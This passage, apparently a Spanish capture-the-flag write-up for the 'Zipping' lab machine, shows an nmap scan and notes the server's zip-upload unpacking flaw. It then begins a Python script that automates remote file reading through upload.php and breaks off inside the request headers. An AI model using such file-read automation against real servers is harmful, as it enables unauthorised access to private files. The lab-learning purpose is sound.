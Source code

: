 Empezamos con un reconocimiento de puertos y servicios a través de la herramienta **nmap**. En el cual logramos detectar dos servicios(ssh,http).

```bash
# Nmap 7.93 scan initiated Wed Sep 13 11:07:57 2023 as: nmap -sCV -p22,80 -oN object.nmap 10.10.11.229
Nmap scan report for 10.10.11.229
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d6eec022d0f6a3860c6aaac1ee0c284 (ECDSA)
|_  256 eb9511c7a6faad74aba2c5f6a4021841 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 13 11:08:11 2023 -- 1 IP address (1 host up) scanned in 14.09 seconds
```

### Página web

Al ingresar al servidor web, observamos que nos permite subir un archivo zip, esto acontece a una carga automática de archivos Zip descomprimidos. Hacktricks comenta acerca de esta vulnerabilidad.

![](/assets/images/htb-writeup-zipping/zipping_hacktricks.png)

### Automatización de lectura de archivos remotos

```python
import requests,subprocess,sys,re

def upload_file():
    url = 'http://10.10.11.229/upload.php'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': 'http://10.10.11.229/upload.php',
        'Origin': 'http://10.10.11.229',
        'DNT': '1',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
```